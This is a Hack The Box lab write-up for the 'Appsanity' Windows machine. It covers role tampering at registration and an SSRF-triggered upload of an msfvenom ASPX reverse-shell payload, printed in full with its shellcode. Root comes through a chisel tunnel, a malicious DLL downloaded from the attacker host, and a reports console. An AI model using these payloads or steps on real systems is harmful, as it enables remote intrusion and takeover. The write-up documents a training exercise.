

# Appsanity Writeup
<figure></figure>

## Target IP: 10.10.11.238

Nmap Scan: 

```
PORT    STATE SERVICE REASON  VERSION
80/tcp  open  http    syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to https://meddigi.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp open  https?  syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Web Enumeration

Adding `meddigi.htb` to `/etc/hosts`.

So we see the landing page.

<figure></figure>

Let's search for some subdomains using gobuster.

```
┌──(kali㉿kali)-[~/Desktop/htb/appsanity]
└─$ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fc 404 -t 100 -u https://meddigi.htb -H "Host: FUZZ.meddigi.htb"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://meddigi.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.meddigi.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

portal                  [Status: 200, Size: 2976, Words: 1219, Lines: 57, Duration: 3090ms]
:: Progress: [4989/4989] :: Job [1/1] :: 162 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```

So let's also add `portal.meddigi.htb` to `/etc/hosts`.

With a bit of inspection in bruteforce, This is some application running on ASP Dotnet Core.

```
Cookie: .AspNetCore.AntiforgeryML5pX7jOz00=CfDJ8IivytGz2ipHvrsY-OE4-b7IpZg7nUyx808JWEGZQLR1pRRB-GqVZpWMq_PC4bSPO5XBxdG09fZlfESiFk4aVLqYDnbefwUYVp1rmvF3u8rR-rEQI5EqCM4XNxHx-l6I4iIgPaE2L0gzmDMZ_JnAnU; 
.AspNetCore.MvcCookieTempDataProvider=CfDJ8IivytGz2ipHvrsY-OE4-b4xgcPNckZqpOeModoOdgZfiwmHyl3B01BtHYBN1ZvJ_I_D95ebNg6VU7wiHXrDHTwSzJqzykmlu8eXDKh6MSifJxWN6U5F5MCmzM-qWK8sHiJgnTs_WCiqNLBrZHDGV9za3_vwiXPcWh72KvS2Qzm8Vn4swHt63VksnJRj8mBjQ
```

After De-coding the JWT Token, This is the response we get.

<figure></figure>

Modifying the `AccType` in the registration URL to see what result it gives.

```
Name=hello&LastName=hello&Email=hello%40test.com&Password=hello123&ConfirmPassword=hello123&DateOfBirth=1995-06-14&PhoneNumber=1234567890&Country=India&Acctype=2&__RequestVerificationToken=CfDJ8IivytGz2ipHvrsY-OE4-b6223reN8mWQKL49aya4v3cnC1BWcxOh7NwAVYxAxraWFJNX9FF_KUP77qLAQt2wsbBfXUyyGbmG6Iv33Du7DcdMoNHMqkB_FiGPwpOOSn3xJl5RQrsyxQANpcwEFTNjpA
```

I retrieved the cookie since `AccType = 2` got me the `doctor` account.

I got logged in to `portal.meddigi.htb` using the same cookie.

<figure></figure>

There is an upload section which only accepts PDF files, but the backend doesnt check the file extension. 

## User Flag

So let's prepare a msfvenom `aspx` shell.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.16.49 lport=1234 -f aspx -a x64 --platform windows
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3430 bytes
<%@ Page Language="C#" AutoEventWireup="true" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
    private static Int32 MEM_COMMIT=0x1000;
    private static IntPtr PAGE_EXECUTE_READWRITE=(IntPtr)0x40;

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,UIntPtr size,Int32 flAllocationType,IntPtr flProtect);

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr CreateThread(IntPtr lpThreadAttributes,UIntPtr dwStackSize,IntPtr lpStartAddress,IntPtr param,Int32 dwCreationFlags,ref IntPtr lpThreadId);

    protected void Page_Load(object sender, EventArgs e)
    {
        byte[] pmkc_gdouAT = new byte[460] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,
0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,
0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,
0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,
0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,
0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,
0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,
0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,
0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,
0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,
0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,
0x04,0xd2,0x0a,0x0a,0x10,0x31,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,
0xff,0xd5,0x4c,0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x50,
0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,
0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,
0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,0x6d,0x64,
0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,
0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,
0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,
0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,
0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,
0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,
0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5};

        IntPtr doXlJAqSp = VirtualAlloc(IntPtr.Zero,(UIntPtr)pmkc_gdouAT.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        System.Runtime.InteropServices.Marshal.Copy(pmkc_gdouAT,0,doXlJAqSp,pmkc_gdouAT.Length);
        IntPtr iaBX = IntPtr.Zero;
        IntPtr wPk2IqoLPw2 = CreateThread(IntPtr.Zero,UIntPtr.Zero,doXlJAqSp,IntPtr.Zero,0,ref iaBX);
    }
</script>
```

Once the shell is created. Let's upload it to the portal.

<figure></figure>

Once the shell Is uploaded, going to the `Issue Prescription` to find the link of the shell using SSRF.

The link can be written as `http://127.0.0.1:8080` and all the uploaded files will be revealed.

```
https://portal.meddigi.htb/ViewReport.aspx?file=59902802-ba72-46f7-a727-a4138f57a79c_docx.aspx
```

And we got the reverse shell while executing that link.

<figure></figure>

```
c:\Windows>whoami
whoami
appsanity\svc_exampanel

c:\Windows>cd C:\Users\svc_exampanel\Desktop
cd C:\Users\svc_exampanel\Desktop

C:\Users\svc_exampanel\Desktop>type user.txt
type user.txt
6e784e2783281fb5e75a95244fcc3b4f
```

And the user flag as been Found.

## Root Flag

After a little but of enumeration. We need to do lateral escalation to escalate to the user `devdoc`.

I found an interesting dll after so much time.

```
c:\inetpub\ExaminationPanel\ExaminationPanel\bin\ExaminationManagement.dll
```

<figure></figure>

I queried the register and found the password to be `1g0tTh3R3m3dy!!`.

Let's login to the user we enumerated previously with this credentials.

```
*Evil-WinRM* PS C:\Program Files\reportmanagement\Libraries> icacls "C:\Program Files\ReportManagement\Libraries"
C:\Program Files\ReportManagement\Libraries APPSANITY\devdoc:(OI)(CI)(RX,W)
                                            BUILTIN\Administrators:(I)(F)
                                            CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                            BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                            BUILTIN\Users:(I)(OI)(CI)(R)
                                            NT SERVICE\TrustedInstaller:(I)(CI)(F)
                                            APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(RX)
                                            APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```


I created a chisel to tunnel through `port 100`

```
┌──(kali㉿kali)-[~/Downloads]
└─$ chisel server -p 8000 --reverse

*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> .\chisel.exe client 10.10.16.49:8000 R:100:127.0.0.1:100
chisel.exe : 2023/12/27 08:56:09 client: Connecting to ws://10.10.16.49:8000
    + CategoryInfo          : NotSpecified: (2023/12/27 08:5...0.10.16.49:8000:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2023/12/27 08:56:11 client: Connected (Latency 108.9778ms)

```

Once I connected to it. I could backup, upload, recover and validate files.

I created the dll file for the reverse shell.

```
┌──(kali㉿kali)-[~/Desktop/htb/appsanity]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f dll -o externalupload.dll     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: externalupload.dll
```

And I also uploaded it to the target machine.

```
$ Invoke-WebRequest -Uri http://10.10.16.10:9999/externalupload.dll -OutFile externalupload.dll
```

And I run this command on the nc helper.

```
┌──(kali㉿kali)-[~/Desktop/htb/appsanity]
└─$ nc 127.0.0.1 100           
Reports Management administrative console. Type "help" to view available commands.
upload externalupload.dll
Attempting to upload to external source.
```

And finally i get the hit.

<figure></figure>

The machine is finally rooted!!

Thank you!! Happy Hacking :D